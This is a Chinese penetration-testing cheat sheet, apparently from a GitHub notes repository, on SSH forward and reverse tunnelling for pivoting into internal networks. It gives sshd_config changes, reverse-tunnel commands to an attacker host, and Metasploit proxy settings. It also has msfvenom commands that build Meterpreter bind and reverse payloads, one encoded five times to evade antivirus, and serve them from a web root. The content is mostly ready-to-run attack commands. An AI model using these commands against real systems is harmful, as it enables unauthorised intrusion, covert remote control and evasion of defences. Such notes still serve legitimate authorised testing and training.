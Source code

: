  #### 正向代理
	SSH动态转发，是建立正向加密的socks通道
	出网靶机编辑后restart ssh服务
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	外部攻击机执行
	>ssh -C -f -N -g -D 0.0.0.0:12138 root@出网靶机IP -p 22
	MSF中设置全局代理或使用其他软件
	>setg proxies socks5:0.0.0.0:12138
	即可进行攻击隔离区机器
![image](/assets/Pentest_Note/master/img/326.png)
![image](/assets/Pentest_Note/master/img/327.png)
 #### 反向代理
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	ClientAliveInterval 修改为30-60保持连接
	ClientAliveCountMax 取消注释 发送请求没响应自动断开次数
	107是外网攻击机
	内网靶机执行：
	>ssh -p 22 -qngfNTR 12138:127.0.0.1:22 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/328.png)

	攻击机执行
	>ssh -p 12138 -qngfNTD 12345 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/329.png)
	
	隧道建立，可使用代理软件配置攻击机外网IP:12345访问内网
![image](/assets/Pentest_Note/master/img/330.png)
 #### SSH隧道+rc4双重加密
	生成木马
	>msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 rc4password=123456 lport=446 -f exe -o /var/www/html/bind.exe
	MSF设置
	>setg proxies socks5:0.0.0.0:12138
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/bind_tcp_rc4
	>set rc4password 123456
	>set rhost 10.1.1.97
	>set lport 446
![image](/assets/Pentest_Note/master/img/331.png)
 #### 公网SSH隧道+Local MSF
	>msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=公网IP LPORT=12138 -f exe –o /var/www/html/1.exe
	Handler监听本地IP:12138
	SSH转发
	>ssh -N -R 12138:本地内网IP:12138 root@公网IP
